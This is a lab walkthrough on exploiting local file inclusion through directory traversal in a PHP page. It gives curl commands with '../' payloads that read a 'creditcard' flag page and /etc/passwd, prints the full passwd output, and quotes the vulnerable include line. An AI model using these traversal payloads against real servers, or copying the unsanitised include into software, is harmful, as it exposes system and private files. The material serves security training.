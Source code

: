 
## Task 2 - LFI using Directory Traversal

### References
- [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal){:target="_blank"}


The second walkthrough can be tested by using `curl "http://<ip>/lfi2/lfi.php`.

Check if the contents of `home.html` is displayed, using `curl "http://<ip>/lfi2/lfi.php?page=home.html"`.
An output similar to following will be obtained,
{% capture code %}{% raw %}File included: home.html<br><br><br>
Local file to be used: html/home.html<br><br>
You included home.html<br>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a page `creditcard`, one level up. To get contents of the page, use `curl "http://<ip>/lfi2/lfi.php?page=../creditcard"`.
Similar output will be obtained,
{% capture code %}{% raw %}File included: ../creditcard<br><br><br>
Local file to be used: html/../creditcard<br><br>
<flag>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a vulnerable code `$local_file = "html/"$_REQUEST["page"];` in lfi.php which allows file contents to be displayed.
To display contents of `/etc/passwd` file, use `curl "http://<ip>/lfi2/lfi.php?page=../../../../../etc/passwd"`,

An output similar to below will be obtained.
{% capture code %}{% raw %}File included: ../../../../../etc/passwd<br><br><br>
Local file to be used: html/../../../../../etc/passwd<br><br>
root:x:0:0:root:/root:/bin/    bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false